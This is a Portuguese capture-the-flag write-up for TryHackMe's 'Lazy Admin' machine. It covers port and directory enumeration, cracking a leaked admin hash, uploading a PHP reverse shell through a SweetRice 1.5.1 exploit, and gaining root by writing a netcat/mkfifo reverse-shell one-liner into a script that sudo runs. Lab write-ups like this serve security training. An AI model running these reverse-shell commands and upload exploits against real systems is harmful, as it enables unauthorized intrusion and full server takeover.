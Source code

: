 <h1><b>Segue Writeup da maquina Lazy Admin Final do Try Hack Me</h1>

<br><br>
<b>Enumeração das portas com o NMAP 
  
```
┌──(xnv㉿kali)-[~]
└─$ nmap -A 10.10.49.240

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-16 04:08 EDT
Nmap scan report for lazyadmin.com (10.10.240.121)
Host is up (0.26s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.82 seconds
```

<b>Eumeração de arquivos e pastas com o WFUZZ
  
```
┌──(xnv㉿kali)-[~]
└─$ wfuzz -c -w /usr/share/dirb/wordlists/common.txt --hc 404,403 -u http://10.10.49.240/FUZZ -t 100

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000001:   200        375 L    968 W      11321 Ch    "http://10.10.49.240/"
000001027:   301        9 L      28 W       314 Ch      "content"
000002020:   200        375 L    968 W      11321 Ch    "index.html"
```
<b>Após encontrar a pasta "content", fiz uma nova enumeração das pastas colocando o content
  
```
┌──(xnv㉿kali)-[~]
└─$ wfuzz -c -w /usr/share/dirb/wordlists/common.txt --hc 404,403 -u http://10.10.49.240/content/FUZZ -t 100
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000001:   200        35 L     151 W      2198 Ch     "http://10.10.49.240/content/"
000000478:   301        9 L      28 W       317 Ch      "as"
000000505:   301        9 L      28 W       325 Ch      "attachment"
000000089:   301        9 L      28 W       322 Ch      "_themes"
000001991:   301        9 L      28 W       321 Ch      "images"
000002010:   301        9 L      28 W       318 Ch      "inc"
000002021:   200        35 L     151 W      2198 Ch     "index.php"
000002179:   301        9 L      28 W       317 Ch      "js"
```
<b>Depois de verificar as pastas e arquivos listados, encontrei um arquivo .sql 
  
![Capturar](https://user-images.githubusercontent.com/90646635/133702386-4aca21e1-f88d-4a3b-b77b-eceedbc6dd0b.PNG)

<b>Nesse arquivo .sql você irá encontrar um usuário e senha para logar na aplicação.
  
```
"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\"
```

<b>Para quebrar esse hash usei o "https://crackstation.net/", com o usuário e senha é só acessar a aplicação no url.
  
![2](https://user-images.githubusercontent.com/90646635/133703615-493a9493-20bf-421b-9af9-090b59e23e94.PNG)

  
<b>Logado vi que se tratava de uma aplicação chamada SweetRice com a versão 1.5.1, com essas informações fui caçar no "https://www.exploit-db.com/"
  
![3](https://user-images.githubusercontent.com/90646635/133704110-9ba96cc1-a21c-47aa-99b5-0d4be571cb21.PNG)

<b>O exploit vai fazer upload de um arquivo para o servidor, então coloquei uma Web Shell, mas o exploit pede algumas extensões especificas escolhi a .php5
  
```
┌──(xnv㉿kali)-[~/thm/lazyadminfinal]
└─$ mv php-reverse-shell.php php-reverse-shell.php5
```
<b>Então Vamos executar o Exploit, ele irá pedir as seguintes informações, URL , USERNAME , PASSWORD , FILE
  
```
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |                                                    
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

Enter The Target URL(Example : localhost.com) : 10.10.49.240/content
Enter Username : manager
Enter Password : Password123
Enter FileName (Example:.htaccess,shell.php5,index.html) : php-reverse-shell.php
[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://10.10.49.240/content/attachment/php-reverse-shell.php5
```
  
Colocamos o netcat para ficar aguardando a Web Shell   
```
┌──(xnv㉿kali)-[~/thm/lazyadminfinal]
└─$ nc -lnvp 4455 
```
  
<b>Com a Web Shell no servidor e o netcat aguarando uma resposta, é só dar um Curl nela que será executada.
  
```
┌──(xnv㉿kali)-[~/thm/lazyadminfinal]
└─$ curl http://10.10.49.240/content/attachment/php-reverse-shell.php5
```
<b>E então temos uma Shell no servidor
  
![4](https://user-images.githubusercontent.com/90646635/133705881-0f406078-6a64-473a-a52a-52275830e835.PNG)
  
<b>E então pegamos a flag User 
  
```  
www-data@THM-Chal:/home/itguy$ cat user.txt
THM{********************************}
```
  
<b> Para encontrar a flag Root, damos um 
  
```
www-data@THM-Chal:/home/itguy$ sudo -l

Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
<b> No arquivo backup.pl, mostra que ele executa um arquivo que está em /etc/
  
![5](https://user-images.githubusercontent.com/90646635/133706646-9251298c-0345-4556-abf0-b5c7411e4658.PNG)

<b> Então coloquei um reverse shell lá dentro já que eu tinha permissão para isso.

```
www-data@THM-Chal:/home/itguy$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.0.21 4445 >/tmp/f" > /etc/copy.sh
```
  
<b> Liguei outro netcat ouvindo a porta 4445
 
``` 
┌──(xnv㉿kali)-[~]
└─$ nc -lnvp 4445
```
  
<b>E executei o arquivo backup
  
```
www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl
```
<b> E assim temos o usuario root, é só ler o arquivo root.txt
  
```
# cat /root/root.txt
THM{********************************}  
```
